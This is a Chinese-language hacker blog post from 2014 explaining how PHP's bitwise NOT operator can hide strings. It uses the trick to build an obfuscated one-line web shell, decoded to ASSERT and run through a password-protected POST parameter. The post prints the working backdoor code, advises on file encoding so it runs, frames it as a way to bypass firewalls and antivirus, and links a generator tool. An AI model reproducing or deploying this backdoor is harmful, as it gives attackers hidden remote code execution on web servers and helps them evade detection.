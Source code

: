  

    .::PHP中使用按位取反(~)函数创建后门::.

    We enjoy hacking of life in day and night.

    _______________________________________________
				
    [+] Author: Evi1m0 <evi1m0.bat#gmail.com>
    [+] Team: FF0000 TEAM <http://www.ff0000.cc>
    [+] From: HackerSoul <http://www.hackersoul.com>
    [+] Create: 2014-02-04
    _______________________________________________


    -= Main =-

1）PHP ~位运算符
前一段时间老外在twitter上爆出个有趣的东西，一串疑似乱码的字符串访问后却能正常输出1337。

PHP: 位运算符

    http://www.php.net/manual/zh/language.operators.bitwise.php
    ~ $a        Not（按位取反）        将 $a 中为 0 的位设为 1，反之亦然

PHP 的 ini 设定 `error_reporting `使用了按位的值，提供了关闭某个位的真实例子。要显示除了提示级别之外的所有错误。
php.ini 中是这样用的： `E_ALL & ~E_NOTICE `
具体运作方式是先取得 E_ALL 的值：` 00000000000000000111011111111111 `
再取得 E_NOTICE 的值： `00000000000000000000000000001000 `
然后通过 ~ 将其取反：` 11111111111111111111111111110111 `
最后再用按位与 AND（&）得到两个值中都设定了（为 1）的位： `00000000000000000111011111110111`

2）分析并重现
这个就是当时最原始的代码实现效果：

![Alt text](/img/20140901-03.jpg)

当看到这个效果的时候最先想到的就是绕过防火墙等后门的实现，之后开始考虑这是哪种编码方式？
后来同李普君测试中发现直接使用echo ~'1';等则会直接输出以上的'乱码'。

![Alt text](/img/20140901-04.jpg)

    <?php
    $x=~Ÿ¬¬º­«;
    $x($_POST[~¹¹ÏÏÏÏ]);
    ?>

那么我们便可以开始写一句话试试效果了：

![Alt text](/img/20140901-05.jpg)

这里定义$x变量为ASSERT，然后密码为FF0000直接链接后门便可，因为当位取反出来'乱码'后我们再取一次反即可返回正常值。

3）关于编码与免杀
当重现这个后门的时候我发现，直接Copy过来的直接HTTP状态500，源头是编码问题，上面这种'乱码'其实为西欧（ISO-8859-15）。
实际过程中我们遇到了多次后门无法链接出现500的错误均势因为编码问题，如果默认编码无法识别将编码方式保存为这种即可（GBK\UTF8\...均不能成功使用）

![Alt text](/img/20140901-06.png)

4）留在最后
我们写了一个小脚本为了方便生成：http://www.hackersoul.com/tools/Createbackdoor-1.php
使用方法：`Createbackdoor-1.php?pwd=password`

url:http://hackersoul.com/post/PHP%E4%B8%AD%E4%BD%BF%E7%94%A8%E6%8C%89%E4%BD%8D%E5%8F%96%E5%8F%8D%E5%87%BD%E6%95%B0%E5%88%9B%E5%BB%BA%E5%90%8E%E9%97%A8.html
    -= END =- 